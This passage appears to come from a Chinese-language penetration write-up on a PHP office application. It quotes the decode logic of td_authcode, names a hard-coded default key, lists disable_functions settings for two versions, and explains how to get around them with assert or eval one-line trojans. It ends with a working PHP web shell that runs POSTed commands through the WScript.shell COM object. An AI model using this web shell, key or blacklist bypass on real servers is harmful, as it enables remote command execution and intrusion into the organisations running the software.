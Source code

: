 ```php
	if ($operation == "DECODE") {
		if (((substr($result, 0, 10) == 0) || (0 < (substr($result, 0, 10) - time()))) && (substr($result, 10, 16) == substr(md5(substr($result, 26) . $keyb), 0, 16))) {
			return substr($result, 26);
		}
		else {
			return "";
		}
	}
	else {
		return $keyc . str_replace("=", "", base64_encode($result));
	}
}
```

td_authcode只处理解码参数的识别，td_authcode($key,$operation...) 中$operation只判断是否为DECODE

默认使用固定的key，且该key硬编码“53c1fb88217737c98daf47e664f3180e”。

- disable_function危险函数限制	

安装环境是一体环境，系统的php配置都是统一的。但对php的配置也是不同版本下不同的，所有配置都设置了disable_function限制，这里放两个系列版本下的默认设置：

```ini
# 11.10
disable_functions = exec,shell_exec,system,passthru,proc_open,show_source,phpinfo,popen,dl,eval,proc_terminate,touch,escapeshellcmd,escapeshellarg

# 2015 未限制eval
disable_functions = exec,shell_exec,system,passthru,proc_open,show_source,phpinfo
```

1. 黑名单绕过：

v11.10限制了大部分危险函数，一句话木马写shell受限，但没限制的可执行函数：`assert`（不能通过这个一句话来执行系统命令）

2015版基本没有限制eval函数

2. Windows 系统组件 COM上传图片马

11.9版本已经不支持了，使用条件：

（1）com.allow_dcom = true（默认不开启）

（2）开启php_com_dotnet.dll

（3）php>5.4

```php
<?php
  $command = $_POST['pass'];
  $wsh = new COM('WScript.shell');
  $exec = $wsh->exec("cmd/c".$command);
  $stdout = $exec->StdOut();
  $stroutput = $stdout->ReadAll();
  echo $stroutput;
```
